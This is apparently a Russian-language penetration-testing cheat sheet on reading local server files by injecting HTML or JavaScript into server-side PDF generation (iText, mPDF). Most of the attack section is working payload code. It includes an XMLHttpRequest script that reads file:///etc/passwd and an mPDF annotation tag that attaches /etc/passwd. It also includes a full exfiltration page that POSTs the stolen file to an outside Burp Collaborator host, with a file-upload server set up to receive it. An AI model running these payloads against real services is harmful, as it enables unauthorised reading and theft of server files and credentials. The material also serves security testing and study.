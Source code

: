 # Local File Read via HTML injection in PDF

## About

Пусть есть возможность влиять на контент PDF. Тогда можно попробовать встроить теги (при условии поддержки JS - теги с Javascript кодом), для того, чтобы на этапе генерации PDF на стороне сервера, встроить содержимое какого-то локального файла - получаем Local File Read.&#x20;

## Exiftool: чем сгенерена PDF

```
➜ files> exiftool dok.pdf

ExifTool Version Number         : 11.85
File Name                       : dok.pdf
Directory                       : .
File Size                       : 29 kB
File Modification Date/Time     : 2020:08:19 14:42:35+03:00
File Access Date/Time           : 2020:08:19 14:45:35+03:00
File Inode Change Date/Time     : 2020:08:19 14:45:17+03:00
File Permissions                : rw-r--r--
File Type                       : PDF
File Type Extension             : pdf
MIME Type                       : application/pdf
PDF Version                     : 1.4
Linearized                      : No
Page Count                      : 1
Producer                        : iText 2.1.7 by 1T3XT
Modify Date                     : 2020:08:19 14:42:21+03:00
Create Date                     : 2020:08:19 14:42:21+03:00
```

## Анализ структуры PDF

### PDFid

PDFid - просмотр содержимого. Есть в [kali](https://tools.kali.org/forensics/pdfid).

### Peepdf

peepdf - анализ компонентов (написана на Python). Есть в kali.



## Примеры

### Пример 1

src [https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html](https://www.noob.ninja/2017/11/local-file-read-via-xss-in-dynamically.html)

Встроить такой JS код:

```javascript
<script>
    x=new XMLHttpRequest;
    x.onload=function(){
        document.write(this.responseText)
    };
    x.open("GET","file:///etc/passwd");
    x.send();
</script> 
```

### Пример 2

Встраивание тега (в любой параметр). Этой уязвимости подвержена например mPDF 6.0

```markup
<annotation file="/etc/passwd" content="/etc/passwd"  icon="Graph" title="Attached File: /etc/passwd" pos-x="195" />
```

## Tricks

## Анализ векторов, связанных с PDF-файлами

Крутая статья: [https://portswigger.net/research/portable-data-exfiltration](https://portswigger.net/research/portable-data-exfiltration)

### Поднять файловый сервер для приема файлов (File Server)

Поднять файловый сервер для загрузки файлов с уязвимой машины&#x20;

gohttpserver: [https://github.com/codeskyblue/gohttpserver](https://github.com/codeskyblue/gohttpserver) \
Use: `./gohttpserver -r ./files/ —-port 8000 —-upload`&#x20;

Далее с уязвимой тачки спокойненько шлем файлы через formdata

Пример скрипта:

```markup
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <title>Title</title>
    </head>
    <body>
        <script>
            x=new XMLHttpRequest;
            x.onload=function() {
                    
                var formData = new FormData();
                try {
                    formData.append("file", this.response, 'test1.txt');
                    var xhr = new XMLHttpRequest();
                    xhr.open("POST", "http://some.burpcollaborator.net/");
                    xhr.send(formData);
                } catch (e) {
                    document.write(e);
                }

            };
            x.open("GET","file:///etc/passwd");
            x.responseType = "blob"; // as Blob
            x.send();
            
        </script>
    </body>
</html>

```

